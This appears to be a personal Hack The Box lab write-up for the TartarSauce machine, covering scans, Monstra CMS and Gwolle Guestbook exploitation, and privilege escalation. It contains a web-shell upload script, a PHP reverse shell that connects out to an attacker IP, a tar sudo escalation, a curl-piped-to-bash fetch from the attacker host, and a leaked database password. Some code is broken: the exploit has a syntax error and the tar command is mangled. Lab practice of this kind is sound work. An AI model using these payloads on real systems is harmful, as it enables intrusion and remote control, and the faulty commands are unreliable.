







# TartarSauce

- **Author:** Julien Bongars
- **Date:** 2026-02-06 21:46:25
- **Path:** /home/julien/.hacklas/./targets/track-oscp/TartarSauce

---

link = https://app.hackthebox.com/machines/TartarSauce
ip = 10.129.1.185

# Description

TartarSauce is a fairly challenging box that highlights the importance of a broad remote enumeration instead of focusing on obvious but potentially less fruitful attack vectors. It features a quite realistic privilege escalation requiring abuses of the tar command. Attention to detail when reviewing tool output is beneficial when attempting this machine.

# Port scanning

**rustscan**

```bash
rustscan -a "$IP_ADDRESS" -ulimit 5000 -- -sC -sV -oA "/home/julien/.hacklas/./targets/track-oscp/TartarSauce/nmap/quick"
```

**nmap**

```bash
nmap -sC -sV -p- -oA "/home/julien/.hacklas/./targets/track-oscp/TartarSauce/nmap/full" "$IP_ADDRESS"

└──╼ $ nmap -sC -sV -oA ./nmap/quick.nmap 10.129.1.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-06 22:25 +08
Nmap scan report for 10.129.1.185
Host is up (0.0043s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Landing Page
| http-robots.txt: 5 disallowed entries
| /webservices/tar/tar/source/
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.56 seconds
```

# Enumeration

```robots.txt
User-agent: *
Disallow: /webservices/tar/tar/source/
Disallow: /webservices/monstra-3.0.4/
Disallow: /webservices/easy-file-uploader/
Disallow: /webservices/developmental/
Disallow: /webservices/phpmyadmin/
```

## Monstra CRM

http://<IP-ADDRESS> /webservices/monstra-3.0.4/



We download the source code for monstra CRM - https://github.com/monstra-cms/monstra/releases/download/v3.0.4/monstra-3.0.4.zip

there is an admin login page : http://10.129.1.185/webservices/monstra-3.0.4/admin/index.php?id=pages



found the password which is username: admin, password: admin

## Exploit Monstra CRM

`I found the exploit here

```py
# Exploit Title: Monstra CMS 3.0.4 - Remote Code Execution (RCE)
# Version: 3.0.4
# This is the modified version from exploitdb - EDB-ID:52038
# https://www.exploit-db.com/exploits/52038

import requests
import random
import string
import time
import re
import sys

if len(sys.argv) < 4:
    print("Usage: python3 script.py <url> <username> <password>")
    sys.exit(1)

base_url = sys.argv[1]
username = sys.argv[2]
password = sys.argv[3]

session = requests.Session()

login_url = f'{base_url}/admin/index.php?id=dashboard'
login_data = {
'login': username,
'password': password,
'login_submit': 'Log+In'
}

filename = ''.join(random.choices(string.ascii_lowercase + string.digits, k=
5))

print("Logging in...")
response = session.post(login_url, data=login_data)

if 'Dashboard' in response.text:
    print("Login successful")
else:
    print("Login failed")
    exit()

time.sleep(3)

edit_url = f'{base_url}/admin/index.php?id=themes&action=add_chunk'
response = session.get(edit_url) # CSRF token bulmak için edit sayfasınaerişim

token_search = re.search(r'''input type="hidden" id="csrf" name="csrf" value="(.*?)"''', response.text)
if token_search:
    token = token_search.group(1)
else:
    print("CSRF token could not be found.")
    exit()

content = '''
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>
'''

edit_data = {
'csrf': token,
'name': 'cool-flash-games.php'
'content': content,
'add_file': 'Save'
}

print("Preparing shell...")
response = session.post(edit_url, data=edit_data)
time.sleep(3)

if response.status_code == 200:
    print(f"Your shell is ready: {base_url}/public/themes/default/{filename}.chunk.php")
else:
    print("Failed to prepare shell.")
```

We craft the following payload:-

```json
{
  "csrf": "0e3339532b582f536875510d129ea338abe4ae34",
  "name": "cream",
  "content": "\n<html>\n<body>\n<form method=\"GET\" name=\"<?php echo basename($_SERVER['PHP_SELF']); ?>\">\n<input type=\"TEXT\" name=\"cmd\" autofocus id=\"cmd\" size=\"80\">\n<input type=\"SUBMIT\" value=\"Execute\">\n</form>\n<pre>\n<?php\nif(isset($_GET['cmd']))\n{\nsystem($_GET['cmd']);\n}\n?>\n</pre>\n</body>\n</html>\n",
  "add_file": "Save"
}
```

curl request

```curl
curl -X POST 'http://10.129.1.185/webservices/monstra-3.0.4/admin/index.php?id=themes&action=add_chunk' \
  -d 'csrf=0e3339532b582f536875510d129ea338abe4ae34' \
  -d 'name=cream' \
  --data-urlencode 'content=<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER["PHP_SELF"]); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET["cmd"]))
{
system($_GET["cmd"]);
}
?>
</pre>
</body>
</html>' \
  -d 'add_file=Save' \
  -b 'PHPSESSID=81im27r7l75dschq183ag91un5'
```

POST request returns a 500. Looking at the guide this is probably a red hearing so will abandon this.

## Gobuster

Enumerating the `/webservices/FUZZ` url, we find there is a `/wp` site that is up

```bash
┌─[julien@parrot]─[~]
└──╼ $ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://10.129.1.185/webservices/'
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.1.185/webservices/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp                   (Status: 301) [Size: 321] [--> http://10.129.1.185/webservices/wp/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
┌─[julien@parrot]─[~]
└──╼ $
```

## Wordpress Site

http://<IP-ADDRESS> /webservices/wp/

there is a WP site that is broken



Wordpress uses absolute links, investigating the page, we can see that links point to a vhost "tartarsauce.htb"



Add tartarsauce.htb to the `/etc/hosts`



Site is now working properly.

Navigating to `/wp-admin` brings us to the admin login page



We try the `admin admin` credentials, nothing.

We run `wpscan --enumerate all-plugins` to see if there are any vulnerable plugins. There is this section:-

```bash
 | Version: 1.1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/themes/voce/style.css?ver=4.9.4, Match: 'Version: 1.1.0'

[+] Enumerating Most Popular Plugins (via Passive Methods)

[i] No plugins Found.

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 0
 | Requests Remaining: 23
```

rerunning on `aggressive` mode

```bash
[+] brute-force-login-protection
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/brute-force-login-protection/
 | Latest Version: 1.5.3 (up to date)
 | Last Updated: 2017-06-29T10:39:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/brute-force-login-protection/, status: 403
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Brute Force Login Protection <= 1.5.3 - Arbitrary IP Removal/Add via CSRF
 |     References:
 |      - https://wpscan.com/vulnerability/c736713a-3a40-4652-ad56-33c412240588
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5034
 |      - https://github.com/0pc0deFR/Exploits/blob/master/CVE-2014-5034/exploit.html
 |      - https://github.com/0pc0deFR/wordpress-sploit-framework/blob/master/exploits/Brute_Force_Login_Protection_1_3_Cross_Site_Reque
st_Forgery
 |      - http://www.giphy.com/gifs/uocXxoUHzEf1PfMctO
 |
 | Version: 1.5.3 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt

[+] gwolle-gb
 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/
 | Last Updated: 2026-02-06T09:48:00.000Z
 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
 | [!] The version is out of date, the latest version is 4.10.1
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
 |
 | [!] 4 vulnerabilities identified:
 |
 | [!] Title: Gwolle Guestbook <= 2.5.3 - Cross-Site Scripting (XSS)
 |     Fixed in: 2.5.4
 |     References:
 |      - https://wpscan.com/vulnerability/00c33bf2-1527-4276-a470-a21da5929566
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-17884
 |      - https://seclists.org/fulldisclosure/2018/Jul/89
 |      - https://www.defensecode.com/advisories/DC-2018-05-008_WordPress_Gwolle_Guestbook_Plugin_Advisory.pdf
 |      - https://plugins.trac.wordpress.org/changeset/1888023/gwolle-gb
 |
 | [!] Title: Gwolle Guestbook < 4.2.0 - Reflected Cross-Site Scripting
 |     Fixed in: 4.2.0
 |     References:
 |      - https://wpscan.com/vulnerability/e50bcb39-9a01-433f-81b3-fd4018672b85
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24980
 |
 | [!] Title: Gwolle Guestbook < 4.7.2 - Reflected Cross-Site Scripting
 |     Fixed in: 4.7.2
 |     References:
 |      - https://wpscan.com/vulnerability/8794d753-2198-4aa9-b465-15299919f48a
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-24710
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/c4048480-25a8-449f-8edb-a2a8854425ff
 |
 | [!] Title: Gwolle Guestbook < 4.9.3 - Unauthenticated Stored Cross-Site Scripting via `gwolle_gb_content` Parameter
 |     Fixed in: 4.9.3
 |     References:
 |      - https://wpscan.com/vulnerability/ba39d490-5c88-4e2b-b65b-97717c0adcc0
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-5807
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/956f86c5-05af-41c3-a779-5b25f62122dd
 |
```

we can do a `searchsploit` for `gwolle`

found the following vulnerability:-

```txt
  Exploit: WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion
      URL: https://www.exploit-db.com/exploits/38861
     Path: /usr/share/exploitdb/exploits/php/webapps/38861.txt
    Codes: CVE-2015-8351, OSVDB-129197
 Verified: False
File Type: Unicode text, UTF-8 text, with very long lines (392)
Advisory ID: HTB23275
Product: Gwolle Guestbook WordPress Plugin
Vendor: Marcel Pol
Vulnerable Version(s): 1.5.3 and probably prior
Tested Version: 1.5.3
Advisory Publication:  October 14, 2015  [without technical details]
Vendor Notification: October 14, 2015
Vendor Patch: October 16, 2015
Public Disclosure: November 4, 2015
Vulnerability Type: PHP File Inclusion [CWE-98]
CVE Reference: CVE-2015-8351
Risk Level: Critical
CVSSv3 Base Score: 9.0 [CVSS:3.0/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H]
Solution Status: Fixed by Vendor
Discovered and Provided: High-Tech Bridge Security Research Lab ( https://www.htbridge.com/advisory/ )

-----------------------------------------------------------------------------------------------

Advisory Details:

High-Tech Bridge Security Research Lab discovered a critical Remote File Inclusion (RFI) in Gwolle Guestbook WordPress plugin, which can be exploited by non-authenticated attacker to include remote PHP file and execute arbitrary code on the vulnerable system.

HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request:

http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]

In order to exploit this vulnerability 'allow_url_include' shall be set to 1. Otherwise, attacker may still include local files and also execute arbitrary code.

Successful exploitation of this vulnerability will lead to entire WordPress installation compromise, and may even lead to the entire web server compromise.
```

We create an exploit folder and drop the following file:-

```php
<?php
exec("python -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"10.10.14.97\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])'");
?>
```

then we curl

```bash
┌─[julien@parrot]─[~/.hacklas/targets/track-oscp/TartarSauce/exploit]
└──╼ $ curl 'http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.97/' -vv
02:35:10.914935 [0-0] * Host tartarsauce.htb:80 was resolved.
02:35:10.914968 [0-0] * IPv6: (none)
02:35:10.914977 [0-0] * IPv4: 10.129.1.185
02:35:10.914987 [0-0] * [SETUP] added
02:35:10.915003 [0-0] *   Trying 10.129.1.185:80...
02:35:10.915048 [0-0] * [SETUP] Curl_conn_connect(block=0) -> 0, done=0
02:35:10.916128 [0-0] * [SETUP] Curl_conn_connect(block=0) -> 0, done=0
02:35:10.923268 [0-0] * [SETUP] Curl_conn_connect(block=0) -> 0, done=1
02:35:10.923462 [0-0] * Connected to tartarsauce.htb (10.129.1.185) port 80
02:35:10.923509 [0-0] * using HTTP/1.x
02:35:10.923587 [0-0] > GET /webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.97/ HTTP/1.1
02:35:10.923587 [0-0] > Host: tartarsauce.htb
02:35:10.923587 [0-0] > User-Agent: curl/8.14.1
02:35:10.923587 [0-0] > Accept: */*
02:35:10.923587 [0-0] >
02:35:10.924174 [0-0] * Request completely sent off
jk
```

I got access

```bash
$ whoami
www-data
$ cat /proc/self/environ
APACHE_RUN_DIR=/var/run/apache2APACHE_PID_FILE=/var/run/apache2/apache2.pidPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
:/binAPACHE_LOCK_DIR=/var/lock/apache2LANG=CAPACHE_RUN_USER=www-dataAPACHE_RUN_GROUP=www-dataAPACHE_LOG_DIR=/var/log/apache2PWD=/var/ww
w/html/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha$
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:108:112::/var/run/dbus:/bin/false
uuidd:x:109:113::/run/uuidd:/bin/false
dnsmasq:x:110:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
onuma:x:1000:1000:,,,:/home/onuma:/bin/bash
$ cat /etc/hosts
127.0.0.1    TartarSauce

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
$
```

```txt
# onuma:x:1000:1000:,,,:/home/onuma:/bin/bash
only useful user maybe?
```

We find the database credentials in `/var/www/html/config.php`

```php
define('DB_NAME', 'wp');
define('DB_USER', 'wpuser');
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
define('DB_HOST', 'localhost');
```

Can't access db as `www-data`

```bash
ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: NO)
www-data@TartarSauce:/var/backups$
```

There is a reference to `codemirror` in monstra

```bash
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: addon
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: AUTHORS
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: bower.json
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: .gitattributes
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: .gitignore
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: .htaccess
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: index.html
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: keymap
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: lib
Only in /var/www/html/webservices/monstra-3.0.4/plugins/codemirror/codemirror: LICENSE
```

don't know if this is important

```html
< </textarea></form>
<     <script>
<       var editor = CodeMirror.fromTextArea(document.getElementById("code"), {
<         theme: "lesser-dark",
<         lineNumbers : true,
<         matchBrackets : true
<       });
<     </script>
< 
<     <p><strong>MIME types defined:</strong> <code>text/x-less</code>, <code>text/css</code> (if not previously defined).</p>
<   </article>
```

two files seem to be writable from `www-data`

```bash
/var/www/html/webservices/monstra-3.0.4/sitemap.xml
/var/www/html/webservices/monstra-3.0.4/storage/pages/1.page.txt
```

editing `.../storage/pages/1.page.txt` appears to affect what appears on the webpage `/webservices/monstra-3.0.1/storage/pages/1.page.txt`



trying to change the site by injecting php or javascript doesn't appear to produce any results..

trying to create a new file or moving to file extension I get Permission denied

```bash
www-data@TartarSauce:/var/www/html/webservices/monstra-3.0.4/storage/pages$ echo 'page 2' > '2.page.txt'
bash: 2.page.txt: Permission denied
www-data@TartarSauce:/var/www/html/webservices/monstra-3.0.4/storage/pages$
www-data@TartarSauce:/var/www/html/webservices/monstra-3.0.4/storage/pages$ mv 1.page.txt 1.page.php
mv: cannot move '1.page.txt' to '1.page.php': Permission denied
```

stuck, going to peak at the walkthrough

if you `sudo -l` on `www-data` you find that you can execute `tar` as `unuma`. Going to `GTFObins` you realise there is a tar command to be able to get a shell as follows.

```bash
sudo -u onuma tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash --checkpoint-action=exec=/bin/bashv/null --checkpoint=1
```

you escalate as onuma

```bash
www-data@TartarSauce:/$ sudo -u onuma tar cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash --checkpoint-action=exec=/bin/bashv/null --checkpoint=1

tar: Removing leading `/' from member names
onuma@TartarSauce:/$
```

you find the user flag

```bash
onuma@TartarSauce:~$ cat use
cat user.txt
4f5ffe8fd1fa8283c9284db34721d14f
onuma@TartarSauce:~$
```

can't seem to use `sudo -l` as don't have password... going to run linenum.sh

```bash
onuma@TartarSauce:~$ curl http://10.10.14.97:80/linenum.sh | bash

...

[-] Systemd timers:
NEXT                         LEFT          LAST                         PASSED       UNIT                         ACTIVATES
Sun 2026-02-08 16:03:28 EST  3min 19s left Sun 2026-02-08 15:58:28 EST  1min 40s ago backuperer.timer             backuperer.service
Sun 2026-02-08 16:08:28 EST  8min left     n/a                          n/a          systemd-tmpfiles-clean.timer systemd-tmpfiles-clea
n.service
Sun 2026-02-08 19:33:56 EST  3h 33min left Sun 2026-02-08 15:53:32 EST  6min ago     apt-daily.timer              apt-daily.service
Mon 2026-02-09 06:40:48 EST  14h left      Sun 2026-02-08 15:53:32 EST  6min ago     apt-daily-upgrade.timer      apt-daily-upgrade.ser
vice

4 timers listed.
Enable thorough tests to see inactive timers
```

there is a cron job that runs every 5 mins `backuperer.service`

the systemd service:

```bash
onuma@TartarSauce:/etc/systemd/system$ systemctl status backuperer
* backuperer.service - Backuperer
   Loaded: loaded (/lib/systemd/system/backuperer.service; static; vendor preset
   Active: inactive (dead) since Sun 2026-02-08 16:04:34 EST; 40s ago
  Process: 2276 ExecStart=/usr/sbin/backuperer (code=exited, status=0/SUCCESS)
 Main PID: 2276 (code=exited, status=0/SUCCESS)
lines 1-5/5 (END)
lines 1-5/5 (END):q
onuma@TartarSauce:/etc/systemd/system$ onuma@TartarSauce:/etc/systemd/system$ cat /lib/systemd/system/backuperer.service
[Unit]
Description=Backuperer

[Service]
ExecStart=/usr/sbin/backuperer
onuma@TartarSauce:/etc/systemd/system$ cat /usr/sbin/backuperer
...moved...
